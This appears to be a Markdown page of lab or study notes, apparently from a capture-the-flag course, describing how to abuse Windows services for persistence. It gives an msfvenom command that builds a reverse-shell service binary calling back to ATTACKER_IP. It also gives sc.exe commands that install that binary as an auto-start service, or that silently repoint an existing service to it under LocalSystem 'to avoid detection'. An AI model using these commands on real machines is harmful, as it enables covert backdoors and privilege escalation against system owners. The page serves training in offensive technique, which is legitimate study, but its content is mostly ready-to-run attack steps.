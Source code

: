 # Abusing Services

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

## Creating backdoor services

First, lets create a reverse shell using msfvenom.

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

Transfer and save this reverse shell into c:\windows and create new service pointing to this revshell.

```
sc.exe create newservice binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start newservice
```

## Modifying existing services

Instead of creating new service, we can reuse an existing service to avoid detection.

List available services using

```
C:\> sc.exe query state=all
```

After finding the desired service, query the configuration as.

```
C:\> sc.exe qc newservice
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\newservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : newservice
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

The key things to look here are,

* START\_TYPE
* BINARY\_PATH\_NAME
* SERVICE\_START\_NAME

This service auto executes `C:\MyService\newservice.exe` under the LocalService (Low Privilege) account.

Lets change the Binary path to point to our revshell executable we created using msfvenom and run it as LocalSystem (Highest Privilege).

```
C:\> sc.exe config newservice binPath= "C:\Windows\revshell.exe" start= auto obj= "LocalSystem"

```

Then we can stop and start the service as

```
sc.exe stop newservice
sc.exe start newservice
```



